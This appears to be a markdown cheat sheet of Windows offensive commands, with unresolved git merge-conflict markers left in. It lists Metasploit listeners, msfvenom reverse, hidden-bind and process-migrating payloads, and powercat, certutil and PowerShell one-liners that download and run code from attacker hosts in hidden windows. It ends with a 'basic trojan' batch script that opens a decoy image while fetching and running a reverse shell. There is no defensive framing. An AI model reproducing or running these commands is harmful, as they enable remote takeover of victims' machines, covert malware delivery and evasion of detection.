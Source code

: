
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

<<<<<<< HEAD

Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```



=======
powershell:
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.63.128 lport=3434 > reverse.bat 
```

Basic trojan:
```bash
@echo off

set "url1=https://prod-ripcut-delivery.disney-plus.net/v1/variant/disney/9B368B465A4DC909CDB6E799ACB64899B54E731B6D894FA5B080D75DB2F30533/scale?aspectRatio=1.78^&format=jpeg"
set "url2=http://192.168.63.128:8081/reverse.bat"

powershell -NoProfile -Command ^
"$urls = @('%url1%', '%url2%'); ^
foreach ($url in $urls) { ^
  $fn = Join-Path $env:TEMP ([System.IO.Path]::GetFileName($url).Split('?')[0]); ^
  try { Invoke-WebRequest -Uri $url -OutFile $fn -UseBasicParsing } catch { Write-Host 'Download failed for' $url; continue }; ^
  if (Test-Path $fn) { ^
    if ($fn -match '\.jpg$') { Start-Process mspaint.exe $fn } else { Start-Process $fn } ^
  } else { Write-Host 'File not found after download:' $fn } ^
}"
```
>>>>>>> origin/main
